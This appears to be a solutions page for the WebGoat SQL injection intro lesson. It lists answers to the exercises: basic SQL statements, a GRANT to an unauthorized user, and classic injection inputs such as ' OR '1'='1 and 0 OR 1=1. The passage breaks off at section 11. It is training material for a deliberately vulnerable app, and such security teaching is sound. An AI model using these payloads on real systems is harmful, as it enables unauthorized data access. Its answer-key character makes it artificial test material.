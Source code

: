 # (A3) Injection
<a name="Injection"></a>

## SQL Injection (intro)

### 2. What is SQL?

```sql
SELECT department FROM employees WHERE first_name='Bob'
```

### 3. Data Manipulation Language (DML)

```sql
UPDATE employees SET department='Sales' WHERE first_name='Tobi'
```

### 4. Data Definition Language (DDL)

```sql
ALTER TABLE employees ADD phone varchar(20)
```

### 5. Data Control Language (DCL)

```sql
GRANT ALL ON grant_rights TO unauthorized_user
```

### 9. Try It! String SQL injection

```sql
'
OR
'1'='1
```

### 10. Try It! Numeric SQL injection

Login_Count: 

```
0
```  

User_Id: 

```sql
0 OR 1=1
```

### 11. Compromising confidentiality with String SQL injection

